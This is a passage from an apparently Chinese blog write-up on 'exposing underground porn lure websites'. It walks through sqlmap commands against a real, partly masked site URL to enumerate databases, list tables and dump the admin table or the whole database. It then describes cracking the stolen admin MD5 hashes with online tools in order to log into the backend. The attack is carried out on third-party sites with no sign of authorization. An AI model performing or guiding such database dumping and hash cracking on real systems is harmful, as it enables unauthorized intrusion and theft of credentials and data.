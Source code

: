 root@kali:\~# sqlmap.py -u <http://txxxcom/list.php?id=1> \--dbs \--users root@kali:\~# sqlmap.py -u <http://txxxcom/list.php?id=1> \--dbs \--users \--dbms mysql root@kali:\~# sqlmap.py -u <http://txxxcom/list.php?id=1> \--dbs \--users \--time-sec 2 \--dbms mysql \--level=2 \--risk=2 \--random-agent

 

**②根据注入得到的数据库，获取数据库里面的数据表**

sqlmap.py -u <http://txxxcom/list.php?id=1> \--tables -D \"aaaaaa\" sqlmap.py -u <http://txxxcom/list.php?id=1> \--tables -D \"aaaaaa\" \--random-agent

 

**③获取管理员数据表或者暴力脱裤**

sqlmap.py -u <http://txxxcom/list.php?id=1> \--dump -T \"xxadminxx\" -D \"aaaaaa\" sqlmap.py -u <http://txxxcom/list.php?id=1> \--dbms mysql \--dump-all -D \"aaaaaa\"

 

（注入失败）

![](042_[冇眼睇]揭秘地下色情诱导网站，上车吧！_031.png)

 

 

（注入成功，正在下载数据库和获取管理员账号密码）

![](042_[冇眼睇]揭秘地下色情诱导网站，上车吧！_032.png)

 

![](042_[冇眼睇]揭秘地下色情诱导网站，上车吧！_033.png)

 

（注入成功，进行管理员密码破解，这里哈希值没跑出来，需要借助在线MD5工具破解）

![](042_[冇眼睇]揭秘地下色情诱导网站，上车吧！_034.png)

 

 

成功的并且dump数据库下来的部分网站截图：

![](042_[冇眼睇]揭秘地下色情诱导网站，上车吧！_035.png)

 

 

 

**6、密码爆破与后台登录管理**

①通过以上SQL注入，拿到了这些网站的管理员用户名及密码哈希值（MD5值），需要对MD5做暴力破解，破解成功率还不确定，如果哈希值是\"加盐\"的，那么成功率将大大减低，所以也只能碰碰运气吧。

 

这里直接找几个在线的md5网站，跑一圈看看：

![](042_[冇眼睇]揭秘地下色情诱导网站，上车吧！_036.png)
